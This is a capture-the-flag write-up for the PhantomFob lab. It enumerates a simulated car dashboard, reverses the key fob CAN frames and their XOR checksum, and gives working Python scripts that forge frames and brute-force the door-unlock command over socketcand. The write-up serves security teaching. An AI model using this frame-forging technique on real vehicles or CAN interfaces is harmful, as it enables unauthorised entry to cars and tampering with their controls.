







## Overview

PhantomFob hands you a web "instrument cluster" wired to a car's CAN bus. The
dashboard exposes a key fob with Lock, Horn, Arm and Disarm buttons — but no
Unlock. The flag only drops when the doors actually unlock. So the real work is down on
the raw bus: reverse the fob's frame format, then forge the unlock command the
web UI deliberately withholds.

[PhantomFob](https://tryhackme.com/room/phantomfob)

## Enumeration

Standard full TCP scan to start:

```bash
sudo nmap -sS -T4 -p- phantomfob.thm
```

```text
Starting Nmap 7.95 ( https://nmap.org ) at 2026-09-14 07:01 UTC
Nmap scan report for phantomfob.thm (10.114.137.54)
Host is up (0.21s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
22/tcp    open  ssh
8080/tcp  open  http-proxy
29536/tcp open  unknown
```

SSH, a web app on 8080, and a high port on 29536 that nmap can't name. That
unknown port is the interesting one — park it for now and start with the web.

Opening 8080 gives a live instrument cluster: a self-moving speedometer and
status tiles, with the four fob buttons sitting underneath.



Pressing buttons sends JSON to `/press`:

```json
{"button":"LOCK"}
```

```json
{"msg":"OK","ok":true}
```

The page source also wires up a server-sent events stream at `/events`, which
is what keeps the gauges live:

```javascript
const es=new EventSource('/events');
es.onmessage=e=>{const s=JSON.parse(e.data);
 setNeedle(s.speed||0);document.getElementById('kph').textContent=Math.round(s.speed||0);
 turn=s.turn||0;setDoors(s.locked);
 ...
 if(s.flag){document.getElementById('flagcard').style.display='block';
  document.getElementById('flag').textContent=s.flag;}
};
```

That last branch is the goal: the flag arrives over `/events` once the server
decides to send it. Curling the stream shows a state blob pushed roughly every
second:

```text
data: {"locked": true, "immob": false, "horn": false, "speed": 82.42, "turn": 1, "fps": 174, "seen_ids": 10, "flag": null}
```

`flag` stays `null`. Disarming the immobiliser does flip `immob` in the stream,
so the controls genuinely do something:

```text
data: {"locked": true, "immob": true, "horn": false, "speed": 64.24, "turn": 0, "fps": 172, "seen_ids": 10, "flag": null}
data: {"locked": true, "immob": false, "horn": false, "speed": 71.13, "turn": 1, "fps": 175, "seen_ids": 10, "flag": null}
```

The obvious first move is to just ask for the doors. `LOCK` does nothing visible,
and tampering with the JSON in Burp to send `UNLOCK` gets shut down:

```json
{"button":"UNLOCK"}
```

```json
{"msg":"no such control","ok":false}
```

So the web layer has no unlock control at all — it's not a matter of guessing a
button name. Whatever unlocks the car has to come from somewhere other than
`/press`.

A quick content sweep to make sure I wasn't missing an endpoint:

```bash
feroxbuster -u http://10.114.137.54:8080 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt
```

```text
405      GET        5l       20w      153c http://10.114.137.54:8080/press
200      GET      145l      374w     8678c http://10.114.137.54:8080/
200      GET       66l      561w     4078c http://10.114.137.54:8080/events
```

Nothing new — just `/`, `/press` and `/events`. That settles it: `/events` is a
*decoded* view of CAN traffic. We see the interpreted instrument state, never
the raw bytes on the wire. The real bus must be that unknown port, 29536.

## Onto the CAN bus

Poking 29536 with netcat gets a greeting:

```bash
nc 10.114.137.54 29536
```

```text
< hi >
```

That `< ... >` framing is socketcand. The protocol handshake is: the server
says hi, then you send `< open can0 >` to attach to a channel and start seeing
frames. Rather than drive the protocol by hand, `python-can` speaks socketcand
natively.

```bash
pip install python-can
```

It needs a `.canrc` pointing at the remote bus:

```text
[default]
interface = socketcand
host = 10.114.137.54
port = 29536
channel = can0
```

With that in place, the built-in viewer decodes frames live:

```bash
python3 -m can.viewer -i socketcand -c can0
```

One wrinkle worth calling out: the `python-can` tools (viewer, logger, and the
scripts later on) talk to the remote socketcand endpoint directly, but the
classic can-utils like `candump` and `cansend` only speak to a local SocketCAN
interface. To use those, I bridged the remote bus down to a local `vcan0`, so
everything from here that references `vcan0` is really acting on the same car
over that bridge.

Now every button press in the browser shows up on the bus. Firing each control
once gives a clean mapping:

```text
                 ID      DLC   Data
LOCK             0x296   8     24 F4 1C 97 51 4A 22 7A
HORN             0x296   8     AB F4 1C 26 52 78 22 75
ARM              0x296   8     78 F4 1C F3 53 75 22 7F
DISARM           0x296   8     15 F4 1C B4 54 C3 22 E4
```

Every fob command rides on ID `0x296`, so unlock should be the same ID with
different data. Comparing the four frames, a structure falls out fast: byte 1 is
always `F4`, byte 2 always `1C`, byte 6 always `22`. Byte 4 steps `51 52 53 54`
— a command counter. Byte 7 is the command itself (`7A`/`75`/`7F`/`E4`). That
leaves bytes 0, 3 and 5 looking random.

## Reversing the key fob frames

### Dumping and filtering the bus

To see those "random" bytes change, log the bus while pressing buttons:

```bash
python3 -m can.logger -i socketcand -c can0 -f bus.log
```

The log is candump text — ID before the `#`, data after:

```text
(1789374124.718309) can0 59F#4FBD08B86DCD4A22 R
```

The bus is noisy. Pulling 40 lines of context after each `0x296` and then
stripping out the IDs that are clearly just background chatter (`59F`, `28D`,
`277`, `11E`, `169`, `143`, and so on — constant-rate filler) leaves only what
actually responds to our commands:



Two IDs react to the fob: `0x2CB` and `0x525`.

`0x2CB` only ever sits in two states, which matches the turn-signal logic in the
frontend — off, or left/right on:

```javascript
// ---- turn-signal blink ----
let turn=0,blink=false;
setInterval(()=>{blink=!blink;
 document.getElementById('tl').classList.toggle('on',turn===1&&blink);
 document.getElementById('tr').classList.toggle('on',turn===2&&blink);
},380);
```

So `0x2CB` is just the indicator state — not our way in.

### The 0x525 detour

That leaves `0x525`, which changes its second byte depending on the command sent.



Every `0x525` frame starts with `01`. That smelled like a flag/enable byte, so
I tried flipping it to `00` and firing a frame back:

```bash
cansend vcan0 525#000000A500000000
```

Command accepted, nothing happened — no state change, no flag. `0x525` is
something the car *emits* in response to a command, not a channel it *accepts*
commands on. Dead end. Back to `0x296`.

### Cracking the checksum

Recapping what we know about `0x296`:

```text
b1, b2 = F4 1C   constant
b6     = 22      constant
b4     = counter
b7     = command (7A / 75 / 7F / E4)
b0, b3, b5       = unknown
```

To forge a frame the car accepts, those three unknown bytes have to be right.
Dumping five HONK presses gives five frames that differ only in the counter and
the unknowns:

```text
(1789381303.964986) can0 296# B6 F4 1C FB D2 38 22 75 R
(1789381307.040010) can0 296# 0C F4 1C A8 D3 D0 22 75 R
(1789381313.731837) can0 296# FE F4 1C 14 D4 99 22 75 R
(1789381317.649114) can0 296# F6 F4 1C 64 D5 E0 22 75 R
(1789381321.402653) can0 296# 71 F4 1C 40 D6 40 22 75 R
```



The counter (`D2`…`D6` here in byte 4) we can forge. The problem is `b0`, `b3`,
`b5`. First instinct was a per-byte XOR against the counter across all five
frames, hoping one byte was `counter XOR key`:

```text
b0:  B6^D2=64   0C^D3=DF   FE^D4=2A   F6^D5=23   71^D6=A7
b3:  FB^D2=29   A8^D3=7B   14^D4=C0   64^D5=B1   40^D6=96
b5:  38^D2=EA   D0^D3=03   99^D4=4D   E0^D5=35   40^D6=96
```

No constant, no pattern — nothing. So instead of pairing each byte with the
counter, I XORed the unknowns *with each other*:

```text
            1    2    3    4    5
b0^b3    :  4D   A4   EA   92   31
b0^b5    :  8E   DC   67   16   31
b3^b5    :  C3   78   8D   84   00
b0^b3^b5 :  75   74   73   72   71
```

`b0 ^ b3 ^ b5` comes out `75 74 73 72 71` — a clean descending sequence tied to
the counter. That's the thread. XORing *every* byte of each frame confirms what's
really going on:

```text
B6 F4 1C FB D2 38 22 75  ->  18
0C F4 1C A8 D3 D0 22 75  ->  18
FE F4 1C 14 D4 99 22 75  ->  18
F6 F4 1C 64 D5 E0 22 75  ->  18
71 F4 1C 40 D6 40 22 75  ->  18
```

The whole frame XORs to `0x18` every time. It's a checksum — the car rejects any
frame whose bytes don't XOR to `0x18`. The three "random" bytes aren't random at
all; they're whatever makes the checksum land.

### Counter and payload

That collapses the forgery problem. `b0` and `b3` can just be `00`; only `b5`
has to carry the checksum. So:

```text
b5 = 0x18 XOR (every other byte, command included)
```

which, with the constants plugged in, is `b5 = D2 XOR counter XOR command`
(`D2` being `0x18` folded through `F4 1C 22` and the zeroed bytes).

The one live input is the counter, which has to be the *next* value the car
expects. Grab the current one off the bus:

```bash
candump vcan0,296:7FF
```



Current counter is `D9`, so we send `DA`. For a HONK (`75`):

```text
D2 XOR DA = 08
08 XOR 75 = 7D   -> b5
```

giving the frame:

```bash
cansend vcan0 296#00F41C00DA7D2275
```

Rather than race the counter by hand, I wrapped it in a script that reads the
live counter off socketcand, increments it, recomputes the checksum byte, and
fires a HONK — HONK being a safe way to prove the forge works without needing
to know the unlock command yet:

```python
#!/usr/bin/env python3
import socket, re, time
from functools import reduce

s = socket.create_connection(("10.114.137.54", 29536))
s.settimeout(2); s.recv(4096)
s.sendall(b"< open can0 >"); time.sleep(0.3); s.recv(4096)
s.sendall(b"< rawmode >"); time.sleep(0.3)
s.settimeout(60)

xor = lambda d: reduce(lambda a, b: a ^ b, d)
buf = ""
while True:
    buf += s.recv(65536).decode(errors="replace")
    g = re.search(r"frame 296 \S+ (\w{16})", buf)
    if g:
        break

f = bytearray(bytes.fromhex(g.group(1)))
f[4] = (f[4] + 1) & 0xFF
f[7] = 0x75
f[5] = 0x18 ^ xor(f[:5] + f[6:])
print(g.group(1), "->", f.hex(" "))
s.sendall(("< send 296 8 " + " ".join(f"{x:02X}" for x in f) + " >").encode())
```

Run it, press any button *except* honk in the browser, and watch the horn icon
light up anyway. It works — we can inject frames the car trusts.

## Forging the unlock

We can forge valid frames; we just don't know the command byte for unlock. The
four known commands are `75`, `7A`, `7F`, `E4`, all clustered in the `0x70`–`0x7F`
range, so unlock is probably a nearby value. That's a tiny search space — brute
force it, trying the `0x70`–`0x7F` block first and skipping the commands we
already know:

```python
#!/usr/bin/env python3
import socket, sys, time
from functools import reduce

ctr = int(sys.argv[1], 16)
xor = lambda d: reduce(lambda a, b: a ^ b, d)

s = socket.create_connection(("10.114.137.54", 29536))
s.settimeout(2); s.recv(4096)
s.sendall(b"< open can0 >"); time.sleep(0.3); s.recv(4096)
s.sendall(b"< rawmode >"); time.sleep(0.3)

order = list(range(0x70, 0x80)) + [c for c in range(256) if not 0x70 <= c < 0x80]
for cmd in order:
    if cmd in (0x75, 0x7A, 0x7F, 0xE4):
        continue
    f = bytearray([0, 0xF4, 0x1C, 0, ctr, 0, 0x22, cmd])
    f[5] = 0x18 ^ xor(f[:5] + f[6:])
    print(hex(cmd), f.hex(" "), flush=True)
    s.sendall(("< send 296 8 " + " ".join(f"{x:02X}" for x in f) + " >").encode())
    time.sleep(0.5)
```

Grab the current counter and run it:

```bash
python3 send.py DA
```

Somewhere in the `0x70`–`0x7F` block the doors unlock, the stream flips `locked`
to false, and `/events` finally pushes a non-null flag.



> THM{...}
{: .prompt-info }

## Conclusion

The box chains a deliberately crippled web UI to a CAN bus you have to reach and
reverse yourself:

1. The web dashboard exposes fob controls but no unlock, and `/press` rejects
   anything that isn't a listed button — the web layer is a dead end by design.
2. socketcand on port 29536 exposes the raw bus; `python-can` attaches to it and
   decodes the frames the web UI only showed interpreted.
3. All fob commands ride CAN ID `0x296`, with a fixed layout, a per-command
   counter in byte 4, and the command in byte 7.
4. `0x525` looked like a command channel but only echoes car state — a rabbit
   hole.
5. The frame carries an XOR-of-all-bytes checksum equal to `0x18`, so any forged
   frame just needs its free byte set to make the sum hold.
6. With a valid-frame recipe and the live counter, brute-forcing the command byte
   over the `0x70`–`0x7F` range lands the unlock and releases the flag.



| Stage | Tools |
| --- | --- |
| Enumeration | nmap, feroxbuster, Burp Suite |
| Bus access | netcat, python-can, socketcand |
| Frame capture | can.viewer, can.logger, candump |
| Reversing / forging | Python, cansend |
